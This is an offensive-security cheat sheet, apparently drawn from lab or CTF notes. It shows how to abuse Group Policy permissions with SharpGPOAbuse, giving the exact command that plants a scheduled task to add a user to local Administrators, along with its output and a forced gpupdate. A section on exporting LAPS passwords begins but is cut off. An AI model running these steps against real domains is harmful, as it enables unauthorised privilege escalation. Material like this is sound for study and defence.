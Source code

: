 # <span style="color:lightblue">Abusing GPO permissions</span>

## <span style="color:lightgreen">Exploitation</span>
We Abusing GPO by adding the user to the local Administrators group leveraging a tool called SharpGPOAbuse.

Source : [https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

Pre compiled binaries : [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

+ Add user to local administrator groups

```powershell
PS C:\Enterprise-Share> .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Debug" --Author vulnnet\administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators enterprise-security /add" --GPOName "SECURITY-POL-VN"
[+] Domain = vulnnet.local
[+] Domain Controller = VULNNET-BC3TCK1SHNQ.vulnnet.local
[+] Distinguished Name = CN=Policies,CN=System,DC=vulnnet,DC=local
[+] GUID of "SECURITY-POL-VN" is: {31B2F340-016D-11D2-945F-00C04FB984F9}
[+] Creating file \\vulnnet.local\SysVol\vulnnet.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```

+ Force Update the system

```powershell
PS C:\Enterprise-Share> gpupdate /force
Updating policy...
Computer Policy update has completed successfully.
User Policy update has completed successfully.
```

+ Now review our group memberships after we forced the policies to be updated on the target machine.

```powershell
PS C:\Enterprise-Share> net user enterprise-security
# Will be added to the administrators group
```

# <span style="color:lightblue">Export LAPS Passwords</span>

## <span style="color:lightgreen">Methodology</span>
The following script assumes that LAPS has already been configured into your environment & that your user account already has access to view LAPS passwords using the Fat Client UI or from Active Directory Users & Computers.
